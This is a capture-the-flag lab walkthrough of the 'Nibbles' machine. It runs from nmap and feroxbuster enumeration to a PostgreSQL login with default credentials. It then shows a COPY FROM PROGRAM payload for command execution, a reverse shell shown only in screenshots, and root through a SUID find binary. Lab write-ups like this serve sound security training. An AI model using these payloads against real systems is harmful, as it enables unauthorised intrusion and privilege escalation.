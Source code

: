 ## First Enumeration with nmap 

```shell
# Nmap 7.94SVN scan initiated Sat Mar 23 15:21:09 2024 as: nmap -sC -sV -T4 -oN service.nmap -p 21,22,80,5437 -Pn 192.168.227.47
Nmap scan report for 192.168.227.47
Host is up (0.20s latency).

PORT     STATE SERVICE    VERSION
21/tcp   open  ftp        vsftpd 3.0.3
22/tcp   open  ssh        OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 10:62:1f:f5:22:de:29:d4:24:96:a7:66:c3:64:b7:10 (RSA)
|   256 c9:15:ff:cd:f3:97:ec:39:13:16:48:38:c5:58:d7:5f (ECDSA)
|_  256 90:7c:a3:44:73:b4:b4:4c:e3:9c:71:d1:87:ba:ca:7b (ED25519)
80/tcp   open  http       Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Enter a title, displayed at the top of the window.
5437/tcp open  postgresql PostgreSQL DB 11.3 - 11.9
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=debian
| Subject Alternative Name: DNS:debian
| Not valid before: 2020-04-27T15:41:47
|_Not valid after:  2030-04-25T15:41:47
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Mar 23 15:21:31 2024 -- 1 IP address (1 host up) scanned in 21.73 seconds

```


## enumerating port 80

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/16224830-47a5-4121-a9bf-dca4baefb8ad)

a web server running on port 80, opening it on a browser, we got a webpage that talks about the html tags etc. 

```shell
┌──(n16hth4wk👽n16hth4wk-sec)-[~/Documents/PGP/Nibbles]
└─$ feroxbuster -u http://192.168.227.47 -C 404,500,400,403 -k 

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.10.1
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://192.168.227.47
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
 💢  Status Code Filters   │ [404, 500, 400, 403]
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.10.1
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 🏁  HTTP methods          │ [GET]
 🔓  Insecure              │ true
 🔃  Recursion Depth       │ 4
 🎉  New Version Available │ https://github.com/epi052/feroxbuster/releases/latest
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
404      GET        9l       31w      276c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
403      GET        9l       28w      279c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
200      GET      169l      550w     4115c http://192.168.227.47/page2.html
200      GET      208l     1213w    90445c http://192.168.227.47/pic.png
200      GET      849l     5242w   413918c http://192.168.227.47/nightmare.jpg
200      GET       30l      201w     1272c http://192.168.227.47/
[####################] - 2m     30003/30003   0s      found:4       errors:28     
[####################] - 2m     30000/30000   208/s   http://192.168.227.47/
```
fuzzing for hidden dirs, we got nothing really useful for use. 


## Enumerating port 5437 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/57053bd3-84c7-402e-9eec-d199481e0ada)

from our scan we can see it is running ` postgresql PostgreSQL DB 11.3 - 11.9`. 

```shell
┌──(n16hth4wk👽n16hth4wk-sec)-[~/Documents/PGP/Nibbles]
└─$ psql -h 192.168.227.47 -p 5437 -U postgres
Password for user postgres: 
psql (16.2 (Debian 16.2-1), server 11.7 (Debian 11.7-0+deb10u1))
SSL connection (protocol: TLSv1.3, cipher: TLS_AES_256_GCM_SHA384, compression: off)
Type "help" for help.

postgres=# 
```
trying to login using default credential `postgres:postgres` and it was success. let's leverage this db server to spawn a shell. 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/456b473e-e0e4-4c32-9b81-ac01421b287a)

Triggering RCE through `postgresql` server. Let's spawn a reverse shell 

>Payload

```
drop table if exists cmd_exec;
create table cmd_exec(cmd_output text);
copy cmd_exec from program 'COMMAND';
```
payload to trigger RCE on a postgresql db server. let's spawn a reverse shell.

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/c06d35dc-c852-4d63-a160-3f69b9e12af2)

We got a reverse shell. 



## Privilege Escalation 

```shell
postgres@nibbles:/var/lib/postgresql/11/main$ cd
bash: cd: HOME not set
postgres@nibbles:/var/lib/postgresql/11/main$ find / -perm -u=s -type f 2>/dev/null
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/bin/chfn
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/chsh
/usr/bin/fusermount
/usr/bin/newgrp
/usr/bin/su
/usr/bin/mount
/usr/bin/find
/usr/bin/sudo
/usr/bin/umount
postgres@nibbles:/var/lib/postgresql/11/main$
```
looking for suid, we can see a valid `/usr/bin/find` bin we can leverage to get root. let's abuse it. 

```
postgres@nibbles:/tmp$ find . -exec /bin/sh -p \; -quit
# whoami 
root
# id
uid=106(postgres) gid=113(postgres) euid=0(root) groups=113(postgres),112(ssl-cert)
# 
```
and we got root. 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/0759e911-ff3e-4a14-a74b-23977f5fa28a)

And we are through 
